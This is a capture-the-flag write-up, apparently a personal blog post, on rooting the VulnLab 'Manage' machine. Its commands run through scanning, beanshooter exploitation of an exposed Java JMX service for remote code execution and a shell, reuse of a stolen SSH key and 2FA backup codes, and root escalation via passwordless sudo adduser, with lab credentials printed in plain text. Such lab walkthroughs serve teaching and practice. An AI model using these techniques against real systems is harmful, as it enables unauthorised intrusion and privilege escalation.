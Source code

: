 ```yaml
---
title: VulnLab -- Manage Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [enumeration]
image:
    path: /images/Manage-banner.png
---
```

# Manage

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Manage** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/manage-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,2222,8080,42247,42897 --min-rate=1000 10.10.123.154
```

![image.png](../images/manage.png)

now let’s try to get information about the Java RMI using beanshooter 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.123.154 2222
```

![image.png](../images/manage%201.png)

now let’s search for any credentials

![image.png](../images/manage%202.png)

as we see we got credentials for the user manager and admin

```bash
username: admin
password: onyRPCkaG4iX72BrRtKgbszd
username: manager
password: fhErvo2r9wuTEYiYgt
```

Now let’s try to gain code execution

First start tcpdump on your machine

```bash
sudo tcpdump -i tun0 icmp
```

![image.png](../images/manage%203.png)

now let’s go and try to ping myself from the victim machine

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 exec 'ping -c 3 10.8.5.233'
```

![image.png](../images/manage%204.png)

Now let’s go back to our machine

![image.png](../images/manage%205.png)

and we got code execution!

Now let’s gain a shell 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 tonka
```

![image.png](../images/manage%206.png)

now let’s go and get a shell.

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.10.123.154 2222
```

![image.png](../images/manage%207.png)

now let’s navigate to the useradmin directory

```bash
cd /home/useradmin
```

![image.png](../images/manage%208.png)

> Notice that we found a backup directory so let’s navigate to it
> 

```bash
cd backups
```

![image.png](../images/manage%209.png)

now let’s download the file in our local machine and see the content

```bash
tar -xvzf backup.tar.gz
```

![image.png](../images/manage%2010.png)

> Notice that we got the id_ed25519 file which is the user admin private key
> 

Let’s login via SSH as the user “useradmin”

```bash
ssh -i .ssh/id_ed25519 useradmin@10.10.123.154
```

![image.png](../images/manage%2011.png)

As we see it asks for the password but as we see when we extracted the backup file we found a google authenticator file so let’s see it’s content

```bash
cat .google_authenticator
```

![image.png](../images/manage%2012.png)

as we see we got the backup code so let’s enter one of them in the SSH login

![image.png](../images/manage%2013.png)

finally we are logged it! 🥳

Now let’s go and see our privileges 

```bash
sudo -l
```

![image.png](../images/manage%2014.png)

> As we see we can execute the binary adduser as root without password
> 

First let’s google the default sudoers file

![image.png](../images/manage%2015.png)

Notice that the admin user by default the admin user will have root access

Now let’s add a new admin user

```bash
sudo /usr/sbin/adduser admin
```

![image.png](../images/manage%2016.png)

now let’s switch to the admin user

```bash
su admin
```

![image.png](../images/manage%2017.png)

Now let’s go and check the user privilege

```bash
sudo -l
```

![image.png](../images/manage%2018.png)

as we see we have all access to root so let’s go and switch to root

```bash
sudo su
```

![image.png](../images/manage%2019.png)

and we got root access so let’s go to the root directory and see the flag

```bash
cd /root;ls -las
```

![image.png](../images/manage%2020.png)

Amazing i got the root flag! 🥳

![image.png](../images/manage%2021.png)

That’s it for the **Manage** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX